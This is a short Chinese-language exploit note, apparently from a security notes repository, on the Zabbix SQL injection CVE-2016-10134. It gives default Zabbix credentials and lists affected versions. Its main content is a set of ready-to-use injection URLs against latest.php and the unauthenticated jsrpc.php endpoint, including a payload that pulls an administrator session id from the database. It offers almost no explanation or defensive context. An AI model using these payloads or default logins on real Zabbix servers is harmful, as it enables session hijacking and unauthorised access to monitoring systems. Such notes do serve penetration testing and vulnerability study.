



## zabbix_SQL注入漏洞(CVE-2016-10134)

#### 默认口令
	admin/zabbix  guest/空密码

#### sql注入
	漏洞版本： 2.2.x  3.3.0-3.03

	登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符 a33a8d7114c7e07d

	将这16个字符作为sid的值，访问
	http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,database()),0)

	这个漏洞也可以通过jsrpc.php触发，且无需登录
	http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)

	获取管理员session值
	http://172.19.0.200:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)

